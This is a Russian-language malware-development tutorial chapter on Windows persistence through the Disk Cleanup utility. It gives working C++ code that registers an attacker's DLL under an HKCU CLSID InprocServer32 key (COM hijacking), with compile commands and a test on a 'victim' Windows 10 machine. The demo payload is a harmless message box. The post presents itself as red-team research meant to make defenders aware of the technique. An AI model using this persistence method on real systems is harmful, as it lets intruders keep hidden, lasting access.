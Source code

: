 \newpage
\subsection{85. разработка вредоносного ПО: закрепление (persistence) - часть 19. Утилита очистки диска. Простой пример на C++.}

﷽

![pers](./images/80/2022-11-18_07-59.png){width="80%"}    

Этот пост основан на моем собственном исследовании одной из интересных техник персистентности вредоносного ПО: через утилиту очистки диска.     

### утилита очистки диска

Если у вас когда-либо возникали проблемы с нехваткой места на жестком диске, вы наверняка знакомы с утилитой очистки диска:    

![pers](./images/80/2022-11-18_08-06.png){width="80%"}    

Хорошие новости для red team: список *"Файлы для удаления"*, отображаемый в пользовательском интерфейсе, не является случайным. Просто выполните команду:    

```powershell
reg query "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Explorer\VolumeCaches" /s
```

![pers](./images/80/2022-11-18_04-42.png){width="80%"}    

![pers](./images/80/2022-11-18_04-44.png){width="80%"}    

Как видно, здесь даже есть значения ключей реестра по умолчанию.    

Кроме того, если у нас есть `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\VolumeCaches\default=<CLSID>`, можно найти еще одно значение ключа реестра: `HKCR\CLSID\<CLSID>\InProcServer32 = <DLLPATH>`:       

![pers](./images/80/2022-11-18_04-51.png){width="80%"}    

![pers](./images/80/2022-11-18_04-54.png){width="80%"}    

> В демонстрационных целях здесь я показываю пример реестра из HKEY_CLASSES_ROOT, так как HKEY_CURRENT_USER пуст

Это наводит на мысль, что мы можем использовать [COM DLL hijacking](https://cocomelonc.github.io/tutorial/2022/05/02/malware-pers-3.html) для персистентности. Давайте попробуем.    

### практический пример

Прежде всего, как обычно, создаем "вредоносную" DLL (`hack.cpp`):      

```cpp
/*
hack.cpp
simple DLL
author: @cocomelonc
https://cocomelonc.github.io/persistence/2022/11/16/malware-pers-19.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, DWORD nReason, 
LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow-meow!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Как обычно, для простоты, это просто `meow-meow` messagebox.

И затем создаем скрипт для закрепления (`pers.cpp`):

```cpp
/*
pers.cpp
windows persistence via Disk Cleaner
author: @cocomelonc
https://cocomelonc.github.io/persistence/2022/11/16/malware-pers-19.html
*/
#include <windows.h>
#include <string.h>
#include <cstdio>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // subkey
  const char* sk = 
  "Software\\Classes\\CLSID\\{8369AB20-56C9-11D0-94E8-00AA0059CE02}
  \\InprocServer32";

  // malicious DLL
  const char* dll = "Z:\\2022-11-16-malware-pers-19\\hack.dll";

  // startup
  LONG res = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR)sk, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, NULL, 0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  } else {
    printf("cannot create subkey value :(\n");
    return -1;
  }
  return 0;
}
```

В качестве CLSID я выбрал `8369AB20-56C9-11D0-94E8-00AA0059CE02`. Как можно видеть, код похож на [COM hijacking](https://cocomelonc.github.io/tutorial/2022/05/02/malware-pers-3.html). Различие только в значениях переменных.   

### демонстрация

Давайте скомпилируем нашу "вредоносную" DLL:    

```bash
x86_64-w64-mingw32-gcc -shared -o hack.dll hack.cpp
```

![pers](./images/80/2022-11-18_05-14.png){width="80%"}    

И скрипт персистентности:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/80/2022-11-18_05-17.png){width="80%"}    

Копируем на машину жертвы. В моем случае `Windows 10 x64`. Запускаем:     

```powershell
reg query "HKCU\Software\Classes\CLSID\{8369AB20-56C9-11D0-94E8-00AA0059CE02}" /s
.\pers.exe
```

![pers](./images/80/2022-11-18_07-56.png){width="80%"}    

![pers](./images/80/2022-11-18_07-57.png){width="80%"}    

Как можно видеть, все сработало идеально! =^..^=     

Но для персистентности требуется, чтобы пользователь запустил утилиту очистки диска. Здесь можно использовать [один из классических трюков](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html) для персистентности. Добавление утилиты очистки диска в автозапуск может быть не лучшей идеей, так как у нее есть GUI. Я попробовал использовать аргументы командной строки этой программы:     

```powershell
cleanmgr.exe
cleanmgr.exe /cleanup
cleanmgr.exe /autoclean
cleanmgr.exe /setup
```

Но неудачно :(. Однако сама утилита работала корректно:       

![pers](./images/80/2022-11-18_08-45.png){width="80%"}    

Думаю, я вернусь к этому вопросу в одном из будущих постов.       

Кроме того, согласно документации Microsoft, можно добавлять новые записи в `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\VolumeCaches`.      

Я не знаю, использовалась ли эта тактика каким-либо APT в дикой природе, но надеюсь, что этот пост повысит осведомленность синих команд об этой интересной технике, особенно при создании программного обеспечения, и добавит оружие в арсенал красных команд.

[MSDN Registering Disk Cleanup Handler](https://learn.microsoft.com/en-us/windows/win32/lwef/disk-cleanup?redirectedfrom=MSDN#registration)        
[DLL hijacking](https://cocomelonc.github.io/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](https://cocomelonc.github.io/pentest/2021/10/12/dll-hijacking-2.html)     
[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[Malware persistence: part 3](https://cocomelonc.github.io/tutorial/2022/05/02/malware-pers-3.html)       
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-11-16-malware-pers-19)     
